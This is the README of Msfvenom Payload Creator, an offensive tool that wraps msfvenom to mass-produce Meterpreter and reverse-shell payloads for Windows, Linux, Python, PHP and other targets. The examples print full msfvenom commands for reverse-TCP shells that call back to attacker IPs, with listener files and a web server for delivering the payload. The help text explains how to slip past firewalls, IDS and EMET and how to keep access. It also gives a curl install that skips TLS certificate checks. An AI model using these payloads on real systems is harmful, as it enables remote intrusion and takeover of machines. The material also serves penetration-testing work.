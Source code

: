 A **quick** way to generate various "basic" Meterpreter payloads via msfvenom (part of the Metasploit framework).

![Msfvenom Payload Creator (MPC)](https://i.imgur.com/JwSYBRZ.png)

- - -

## About

Msfvenom Payload Creator (MPC) is a wrapper to generate multiple types of payloads, based on users choice. The idea is to be as **simple as possible** (**only requiring one input**) to produce their payload.

**Fully automating** msfvenom & Metasploit is the end goal _(well as to be be able to automate MPC itself)_.
The rest is to make the user's life as **easy as possible** (e.g. **IP selection menu**, **msfconsole resource file/commands**, **batch payload production** and able to enter **any argument in any order** _(in various formats/patterns)_).

The only necessary input from the user should be **defining the payload** they want by either the **platform** (e.g. `windows`), or the **file extension** they wish the payload to have (e.g. `exe`).

* **Can't remember your IP for a interface? Don't sweat it, just use the interface name**: `eth0`.
* **Don't know what your external IP is? MPC will discover it**: `wan`.
* **Want to generate one of each payload? No issue!** Try: `loop`.
* **Want to mass create payloads? Everything? Or to filter your select? ..Either way, its not a problem**. Try: `batch` (for everything), `batch msf` (for every Meterpreter option), `batch staged` (for every staged payload), or `batch cmd stageless` (for every stageless command prompt)!

_Note: This will **not** try to bypass any anti-virus solutions._

## Install

* Designed for **Kali Linux v1.1.0a+** & **Metasploit v4.11+** _(nothing else has been tested)_.

```
curl -k -L "https://raw.githubusercontent.com/g0tmi1k/mpc/master/mpc.sh" > /usr/bin/mpc
chmod +x /usr/bin/mpc
mpc
```

## Help

```
root@kali:~# mpc -h -v
 [*] Msfvenom Payload Creator (MPC v1.3)

 [i] /usr/bin/mpc <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>) (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>) (<VERBOSE>)
 [i]   Example: /usr/bin/mpc windows 192.168.1.10        # Windows & manual IP.
 [i]            /usr/bin/mpc elf eth0 4444               # Linux, eth0's IP & manual port.
 [i]            /usr/bin/mpc stageless cmd py verbose    # Python, stageless command prompt.
 [i]            /usr/bin/mpc loop eth1                   # A payload for every type, using eth1's IP.
 [i]            /usr/bin/mpc msf batch wan               # All possible Meterpreter payloads, using WAN IP.
 [i]            /usr/bin/mpc help verbose                # This help screen, with even more information.

 [i] <TYPE>:
 [i]   + ASP
 [i]   + ASPX
 [i]   + Bash [.sh]
 [i]   + Java [.jsp]
 [i]   + Linux [.elf]
 [i]   + OSX [.macho]
 [i]   + Perl [.pl]
 [i]   + PHP
 [i]   + Powershell [.ps1]
 [i]   + Python [.py]
 [i]   + Tomcat [.war]
 [i]   + Windows [.exe]

 [i] Rather than putting <DOMAIN/IP>, you can do a interface and MPC will detect that IP address.
 [i] Missing <DOMAIN/IP> will default to the IP menu.

 [i] Missing <PORT> will default to 443.

 [i] <CMD> is a standard/native command prompt/terminal to interactive with.
 [i] <MSF> is a custom cross platform Meterpreter shell, gaining the full power of Metasploit.
 [i] Missing <CMD/MSF> will default to <MSF> where possible.
 [i]   Note: Metasploit doesn't (yet!) support <CMD/MSF> for every <TYPE> format.
 [i] <CMD> payloads are generally smaller than <MSF> and easier to bypass EMET. Limit Metasploit post modules/scripts support.
 [i] <MSF> payloads are generally much larger than <CMD>, as it comes with more features.

 [i] <BIND> opens a port on the target side, and the attacker connects to them. Commonly blocked with ingress firewalls rules on the target.
 [i] <REVERSE> makes the target connect back to the attacker. The attacker needs an open port. Blocked with engress firewalls rules on the target.
 [i] Missing <BIND/REVERSE> will default to <REVERSE>.
 [i] <BIND> allows for the attacker to connect whenever they wish. <REVERSE> needs to the target to be repeatedly connecting back to permanent maintain access.

 [i] <STAGED> splits the payload into parts, making it smaller but dependent on Metasploit.
 [i] <STAGELESS> is the complete standalone payload. More 'stable' than <STAGED>.
 [i] Missing <STAGED/STAGELESS> will default to <STAGED> where possible.
 [i]   Note: Metasploit doesn't (yet!) support <STAGED/STAGELESS> for every <TYPE> format.
 [i] <STAGED> are 'better' in low-bandwidth/high-latency environments.
 [i] <STAGELESS> are seen as 'stealthier' when bypassing Anti-Virus protections. <STAGED> may work 'better' with IDS/IPS.
 [i] More information: https://community.rapid7.com/community/metasploit/blog/2015/03/25/stageless-meterpreter-payloads
 [i]                   https://www.offensive-security.com/metasploit-unleashed/payload-types/
 [i]                   https://www.offensive-security.com/metasploit-unleashed/payloads/

 [i] <TCP> is the standard method to connecting back. This is the most compatible with TYPES as its RAW. Can be easily detected on IDSs.
 [i] <HTTP> makes the communication appear to be HTTP traffic (unencrypted). Helpful for packet inspection, which limit port access on protocol - e.g. TCP 80.
 [i] <HTTPS> makes the communication appear to be (encrypted) HTTP traffic using as SSL. Helpful for packet inspection, which limit port access on protocol - e.g. TCP 443.
 [i] <FIND_PORT> will attempt every port on the target machine, to find a way out. Useful with stick ingress/engress firewall rules. Will switch to 'allports' based on <TYPE>.
 [i] Missing <TCP/HTTP/HTTPS/FIND_PORT> will default to <TCP>.
 [i] By altering the traffic, such as <HTTP> and even more <HTTPS>, it will slow down the communication & increase the payload size.
 [i] More information: https://community.rapid7.com/community/metasploit/blog/2011/06/29/meterpreter-httphttps-communication

 [i] <BATCH> will generate as many combinations as possible: <TYPE>, <CMD + MSF>, <BIND + REVERSE>, <STAGED + STAGLESS> & <TCP + HTTP + HTTPS + FIND_PORT>
 [i] <LOOP> will just create one of each <TYPE>.

 [i] <VERBOSE> will display more information.
root@kali:~#
```

## Example \#1 (Windows, Fully Automated With IP)

```bash
root@kali:~# mpc windows 192.168.1.10
 [*] Msfvenom Payload Creator (MPC v1.3)
 [i]   IP: 192.168.1.10
 [i] PORT: 443
 [i] TYPE: windows (windows/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom -p windows/meterpreter/reverse_tcp -f exe --platform windows -a x86 -e generic/none LHOST=192.168.1.10 LPORT=443 > /root/windows-meterpreter-staged-reverse-tcp-443.exe
 [i] File (/root/windows-meterpreter-staged-reverse-tcp-443.exe) already exists. Overwriting...
 [i] windows meterpreter created: '/root/windows-meterpreter-staged-reverse-tcp-443.exe'
 [i] MSF handler file: '/root/windows-meterpreter-staged-reverse-tcp-443-exe.rc'   (msfconsole -q -r /root/windows-meterpreter-staged-reverse-tcp-443-exe.rc)
 [?] Quick web server for file transfer?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:~#
```

## Example \#2 (Linux Format, Fully Automated With Interface and Port)

```bash
root@kali:~# ./mpc elf eth0 4444
 [*] Msfvenom Payload Creator (MPC v1.3)
 [i]   IP: 192.168.103.238
 [i] PORT: 4444
 [i] TYPE: linux (linux/x86/shell/reverse_tcp)
 [i]  CMD: msfvenom -p linux/x86/shell/reverse_tcp -f elf --platform linux -a x86 -e generic/none LHOST=192.168.103.238 LPORT=4444 > /root/linux-shell-staged-reverse-tcp-4444.elf
 [i] linux shell created: '/root/linux-shell-staged-reverse-tcp-4444.elf'
 [i] MSF handler file: '/root/linux-shell-staged-reverse-tcp-4444-elf.rc'   (msfconsole -q -r /root/linux-shell-staged-reverse-tcp-4444-elf.rc)
 [?] Quick web server for file transfer?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:~#
```

## Example \#3 (Python Format, Stageless Command Prompt Using Interactive IP Menu)

```bash
root@kali:~# mpc stageless cmd py verbose
 [*] Msfvenom Payload Creator (MPC v1.3)

 [i] Use which interface/IP address?:
 [i]   1.) eth0 - 192.168.103.238
 [i]   2.) eth1 - 192.168.155.175
 [i]   3.) tap0 - 10.10.100.63
 [i]   4.) lo - 127.0.0.1
 [i]   5.) wan - xx.xx.xx.xx
 [?] Select 1-5, interface or IP address: 3

 [i]        IP: 10.10.100.63
 [i]      PORT: 443
 [i]      TYPE: python (python/shell_reverse_tcp)
 [i]     SHELL: shell
 [i] DIRECTION: reverse
 [i]     STAGE: stageless
 [i]    METHOD: tcp
 [i]       CMD: msfvenom -p python/shell_reverse_tcp -f raw --platform python -e generic/none -a python LHOST=10.10.100.63 LPORT=443 > /root/python-shell-stageless-reverse-tcp-443.py
 [i] python shell created: '/root/python-shell-stageless-reverse-tcp-443.py'
 [i] File: ASCII text, with very long lines, with no line terminators
 [i] Size: 4.0K
 [i]  MD5: 53452eafafe21bff94e6c4621525165b
 [i] SHA1: 18641444f084c5fe7e198c29bf705a68b15c2cc9
 [i] MSF handler file: '/root/python-shell-stageless-reverse-tcp-443-py.rc'   (msfconsole -q -r /root/python-shell-stageless-reverse-tcp-443-py.rc)
 [?] Quick web server for file transfer?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:~#
```
_Note: Removed WAN IP._

![Examples](https://i.imgur.com/r9Qmzda.png)

- - -

## To-Do List

* Shellcode generation
* x64 payloads
* IPv6 support
* Look into using OS scripting more _(`powershell_bind_tcp` & `bind_perl` etc)_